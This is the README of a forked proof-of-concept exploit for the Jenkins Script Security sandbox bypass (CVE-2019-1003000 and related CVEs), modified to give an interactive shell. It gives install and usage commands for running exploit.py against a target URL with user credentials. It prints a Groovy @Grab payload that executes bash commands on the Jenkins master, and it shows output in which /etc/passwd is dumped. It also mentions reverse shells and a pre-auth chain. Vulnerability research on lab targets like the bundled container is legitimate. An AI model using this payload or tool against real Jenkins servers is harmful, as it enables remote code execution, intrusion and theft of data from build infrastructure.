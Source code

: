 > This is a forked version of actual POC [Here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc) Updated to work with python3 and added interactive shell feature.
# PoC: Jenkins RCE
##### SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)

> A proof of concept to allow users with Overall/Read permission and Job/Configure (and optional Job/Build) to bypass the sandbox protection and execute arbitrary code on the Jenkins master or node.

> **Update**: An article by [Orange Tsai](https://twitter.com/orange_8361) explaining the exploit chain utilizing CVE-2018-1000861 and CVE-2019-1003000 that bypass the need of Overall/Read permission for a pre-auth RCE:
http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html


## Installation

```bash
git clone https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc.git
cd cve-2019-1003000-jenkins-rce-poc
pip3 install -r requirements.txt
```


## Usage
Pass target url, job name, username/password credential, as arguments.
```bash
python exploit.py --url http://jenkins-site.com --job job_name --username your_user --password your_passwd
```

## Explanation

Quoted from [Red Hat Bugzilla - Bug 1667566](https://bugzilla.redhat.com/show_bug.cgi?id=1667566):

> A flaw was found in Pipeline: Declarative Plugin before version 1.3.4.1, Pipeline: Groovy Plugin before version 2.61.1 and Script Security Plugin before version 1.50. Script Security sandbox protection could be circumvented during the script compilation phase by applying AST transforming annotations such as @Grab to source code elements. Both the pipeline validation REST APIs and actual script/pipeline execution are affected. This allowed users with Overall/Read permission, or able to control Jenkinsfile or sandboxed Pipeline shared library contents in SCM, to bypass the sandbox protection and execute arbitrary code on the Jenkins master or node. All known unsafe AST transformations in Groovy are now prohibited in sandboxed scripts.

This PoC is using a user with Overall/Read and Job/Configure permission to execute a maliciously modified build script in sandbox mode, and try to bypass the sandbox mode limitation in order to run arbitraty scripts (in this case, we will execute system command).

As a background, Jenkins's pipeline build script is written in groovy. This build script will be compiled and executed in Jenkins master or node, containing definition of the pipeline, e.g. what to do in slave nodes. Jenkins also provide the script to be executed in _sandbox mode_. In sandbox mode, all dangerous functions are blacklisted, so regular user cannot do anything malicious to the Jenkins server.

However, because the build script is written in Groovy, we can use any class or function in Java packages (However in sandbox mode, dangerous built-in ones are blacklisted). In this case, we are using AST transforming annotations `@Grab` to make jenkins import arbitrary java packages from external maven repository. In this PoC, I use `ProcBuilder` class defined in `org.buildobjects:jproc:2.2.3` in order to run system shell command.

The payload is defined as below:
```
import org.buildobjects.process.ProcBuilder
@Grab('org.buildobjects:jproc:2.2.3')
class Dummy{ }
print new ProcBuilder("/bin/bash").withArgs("-c","cat /etc/passwd").run().getOutputString()
```

The script above will be compiled and executed in Jenkins master or node. After the job build is done, we can see the result of the shell command `cat /etc/passwd` in the job console output. Moreover, we can utilize this RCE to gain reverse shell, and literally _pwn_ the Jenkins server!


## Example Vulnerable Site

An example vulnerable jenkins can be found [Here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc) in Docker container format. After booting up, the container image will have a jenkins site hosted on port tcp/8080, with a regular user with Overall/Read + Job/Configure + Job/Build permission with credential `user1:user1`, and pipeline job with id `my-pipeline`.

```bash
$ cd sample-vuln
$ ./run.sh


$ cd ..
$ python exploit.py --url http://localhost:8080 --job my-pipeline --username user1 --password user1

Enter a command (or "exit" to quit): cat /etc/passwd
[+] Connecting to Jenkins...
[+] Crafting payload...
[+] Modifying job with payload...
[+] Putting job build to queue...
[+] Waiting for job to build...
[+] Restoring job...
[+] Fetching output...
[+] OUTPUT:
Started by user unknown or anonymous
Running in Durability level: MAX_SURVIVABILITY
[Pipeline] echo
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
jenkins:x:1000:1000:Linux User,,,:/var/jenkins_home:/bin/bash

[Pipeline] End of Pipeline
Finished: SUCCESS

Enter a command (or "exit" to quit):
```


## Reference
- [Jenkins Security Advisory 2019-01-08](https://jenkins.io/security/advisory/2019-01-08/)
- [Jenkins upstream patch](https://github.com/jenkinsci/script-security-plugin/commit/2c5122e50742dd16492f9424992deb21cc07837c)
- [Red Hat Bugzilla - Bug 1667566](https://bugzilla.redhat.com/show_bug.cgi?id=1667566)
- [Jenkins Script Security Plugin](https://wiki.jenkins.io/display/JENKINS/Script+Security+Plugin)
